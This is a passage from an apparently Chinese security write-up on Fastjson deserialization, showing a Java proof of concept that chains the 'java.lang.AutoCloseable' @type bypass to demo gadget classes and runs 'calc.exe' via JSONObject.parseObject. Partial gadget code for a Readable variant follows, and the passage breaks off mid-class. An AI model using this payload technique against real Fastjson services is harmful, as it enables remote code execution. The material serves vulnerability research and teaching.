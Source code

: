 ```
    }

    public void setCmd(String cmd) {
        this.cmd = cmd;
    }

    @Override
    public void run() {

    }
}


```

执行载荷：

```
package org.heptagram.fastjson;

import com.alibaba.fastjson.JSONObject;

public class ExecRunnableMain {
    public static void main(String[] args) {
        String payload ="{\n" +
                "  \"@type\":\"java.lang.AutoCloseable\",\n" +
                "  \"@type\": \"org.heptagram.fastjson.ExecRunnable\",\n" +
                "  \"eval\":{\"@type\":\"org.heptagram.fastjson.EvalRunnable\",\"cmd\":\"calc.exe\"}\n" +
                "}";
        JSONObject.parseObject(payload);
    }
}


```

执行结果：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210422113149-45d703fc-a31b-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210422113149-45d703fc-a31b-1.jpg)  
B、Readable：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210422113209-51def8d0-a31b-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210422113209-51def8d0-a31b-1.png)

```
package org.heptagram.fastjson;

import java.io.IOException;
import java.nio.CharBuffer;

public class ExecReadable implements AutoCloseable {
    private EvalReadable eval;

    public EvalReadable getEval() {
        return eval;
    }

    public void setEval(EvalReadable eval) {
        this.eval = eval;
    }

    @Override
    public void close() throws Exception {

    }
```